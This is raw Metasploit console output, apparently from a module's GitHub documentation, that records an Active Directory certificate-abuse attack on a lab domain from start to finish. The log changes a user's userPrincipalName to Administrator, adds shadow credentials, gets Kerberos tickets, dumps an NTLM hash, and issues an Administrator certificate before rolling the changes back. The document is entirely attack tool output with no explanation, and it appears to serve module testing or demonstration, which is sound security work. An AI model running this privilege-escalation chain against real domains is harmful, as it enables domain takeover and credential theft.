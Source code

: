 ```
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Current value of user2's userPrincipalName: user2
[*] Attempting to update userPrincipalName for CN=user2,CN=Users,DC=kerberos,DC=issue to Administrator...
[+] Successfully updated CN=user2,CN=Users,DC=kerberos,DC=issue's userPrincipalName to Administrator
[+] The operation completed successfully!
[*] 172.16.199.200:445 - Adding shadow credentials for user2
[*] 172.16.199.200:445 - Loading admin/ldap/shadow_credentials
[*] 172.16.199.200:445 - Running admin/ldap/shadow_credentials
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovering base DN automatically
[*] 172.16.199.200:389 Discovered base DN: DC=kerberos,DC=issue
[*] Certificate stored at: /Users/jheysel/.msf4/loot/20250717140905_default_172.16.199.200_windows.ad.cs_563081.pfx
[+] Successfully updated the msDS-KeyCredentialLink attribute; certificate with device ID 2ff08c15-0ab3-98ad-ee0b-3fd1fbcf3e9d
[*] 172.16.199.200:445 - Loading admin/kerberos/get_ticket
[*] 172.16.199.200:445 - Getting hash for user2
[!] Warning: Provided principal and realm (user2@kerberos.issue) do not match entries in certificate:
[+] 172.16.199.200:88 - Received a valid TGT-Response
[*] 172.16.199.200:88 - TGT MIT Credential Cache ticket saved to /Users/jheysel/.msf4/loot/20250717140905_default_172.16.199.200_mit.kerberos.cca_263627.bin
[*] 172.16.199.200:88 - Getting NTLM hash for user2@kerberos.issue
[+] 172.16.199.200:88 - Received a valid TGS-Response
[*] 172.16.199.200:88 - TGS MIT Credential Cache ticket saved to /Users/jheysel/.msf4/loot/20250717140905_default_172.16.199.200_mit.kerberos.cca_015140.bin
[+] Found NTLM hash for user2: aad3b435b51404eeaad3b435b51404ee:4fd408d8f8ecb20d4b0768a0ac44b71f
[+] 172.16.199.200:445 - The requested certificate was issued.
[*] 172.16.199.200:445 - Certificate Policies:
[*] 172.16.199.200:445 -   * 1.3.6.1.5.5.7.3.2 (Client Authentication)
[*] 172.16.199.200:445 - Certificate UPN: Administrator
[*] 172.16.199.200:445 - Certificate stored at: /Users/jheysel/.msf4/loot/20250717140907_default_172.16.199.200_windows.ad.cs_548728.pfx
[*] 172.16.199.200:445 - reverting ldap object
[*] 172.16.199.200:445 - Loading admin/ldap/shadow_credentials
[*] 172.16.199.200:445 - Running admin/ldap/shadow_credentials
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovering base DN automatically
[*] 172.16.199.200:389 Discovered base DN: DC=kerberos,DC=issue
[*] No matching entries found - check device ID
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Current value of user2's userPrincipalName: Administrator
[*] Attempting to update userPrincipalName for CN=user2,CN=Users,DC=kerberos,DC=issue to user2...
[+] Successfully updated CN=user2,CN=Users,DC=kerberos,DC=issue's userPrincipalName to user2
[+] The operation completed successfully!
[*] Auxiliary module execution completed
```
